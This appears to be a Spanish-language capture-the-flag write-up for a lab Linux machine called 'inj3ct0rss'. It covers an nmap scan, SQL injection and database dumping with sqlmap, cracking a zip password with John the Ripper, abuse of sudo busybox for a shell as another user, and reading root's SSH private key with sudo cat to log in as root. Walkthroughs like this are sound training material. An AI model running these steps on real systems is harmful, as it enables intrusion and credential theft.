

üîπMaquina: inj3ct0rss
üìÖ Publicado el 26/08/2025 | Categor√≠a: LINUX
üìù Descripci√≥n
Este reto consiste en comprometer una máquina Linux en un entorno controlado. No se proporciona una flag directa, pero el objetivo es obtener acceso privilegiado (root) y entender el vector de escalada.
üîç Análisis inicial
El análisis comenzó con un reconocimiento básico utilizando herramientas de enumeración para comprender los servicios expuestos.
sudo nmap -p- -open -O -sS -sCV -min-rate 5000 -n -Pn -vvv 172.17.0.2
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 fd:f8:90:30:73:b2:51:20:2d:cb:7a:77:67:69:dc:e5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBExyKJmqP02QSpyCbDMVK8cvWcsJmAHf2WEyjBSElOMDSrdK7mawGufQtAKuf6aCZGWjM8HtOa++iu47gY/224g=
| 256 ad:54:3f:1a:45:7c:b5:97:fb:5b:a8:fb:63:1d:1d:0b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAxCKvhvk5MXJSo9kabqvQHsuRDOnSE0M+Z6El2r9+4X
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Inj3ct0rs CTF - P\xC3\xA1gina Principal
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
entramos a Inj3ct0rs CTF, en la cual nos deja iniciar sesion o registrarnos
Probamos realizar un sqlinjeccion, el cual fue exitoso y usamos sqlmap para tener mas informacion

sqlmap -r post.txt --batch --random-agent --dbs
available databases [5]:
[*] information_schema
[*] injectors_db
[*] mysql
[*] performance_schema
[*] sys
sqlmap -r post.txt -D injectors_db --tables --batch
[1 table]
+-------+
| users |
+-------+
sqlmap -r post.txt -D injectors_db -T users --columns --batch
Database: injectors_db
Table: users
[3 columns]
+----------+-------------+
| Column | Type |
+----------+-------------+
| id | int |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
sqlmap -r post.txt -D injectors_db -T users -C "username,password" --dump --batch
Database: injectors_db
Table: users
[4 entries]
+----------+-----------------------------+
| username | password |
+----------+-----------------------------+
| jane | chicago123 |
| root | loveyou |
| ralf | no_mirar_en_este_directorio |
| admin | password |
+----------+-----------------------------+
Entramos al directorio no_mirar_en_este_directorio:

Descargamos el secret.zip, el cual tenia contraseña entonces hacemos fuerza bruta con Jonh the Ripper:
zip2john secret.zip > secret.hash
ver 2.0 efh 5455 efh 7875 secret.zip/confidencial.txt PKZIP Encr: TS_chk, cmplen=132, decmplen=177, crc=D2FD3E9E ts=7A38 cs=7a38 type=8
❯ john --wordlist=/usr/share/wordlists/rockyou.txt secret.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer (secret.zip/confidencial.txt)
1g 0:00:00:00 DONE (2025-08-26 16:31) 10.00g/s 40960p/s 40960c/s 40960C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
❯ john --show secret.hash
secret.zip/confidencial.txt:computer:confidencial.txt:secret.zip::secret.zip
1 password hash cracked, 0 left
Ya tenemos la contraseña que era computer, el contenido es:
Entramos por ssh con el usuario ralf y la contraseña supersecurepassword
sudo -l
User ralf may run the following commands on 4010acc64394:
(capa : capa) NOPASSWD: /usr/local/bin/busybox /nothing/*
Esto significaba que ralf podía ejecutar busybox como el usuario capa, pero únicamente sobre archivos dentro de /nothing/*. Se creó el directorio /nothing y se intentó enlazar /bin/sh para explotarlo, pero inicialmente dio error. Sin embargo, usando directamente sudo:
sudo -u capa /usr/local/bin/busybox /nothing/sh
whoami
capa
üí£ Escalada de privilegios / Resoluci√≥n
sudo -l
User capa may run the following commands on 4010acc64394:
(ALL : ALL) NOPASSWD: /bin/cat
Esto significa que capa podía ejecutar cat como root sin contraseña. Se intentó inicialmente leer /root/root.txt:
sudo cat /root/root.txt
It's not worth looking at this file alone, you have to be root hehe
Al listar el directorio /root, se encontró un archivo sospechoso con una clave privada SSH:
sudo cat /root/.ssh/id_rsa
La clave se copió a la máquina atacante como id_rsa_root, se ajustaron permisos y se utilizó para conectarse como root:
ssh -i id_rsa_root root@172.17.0.2
Listo:
whoami
root
üèÜ Resultado
Conseguimos acceso como root.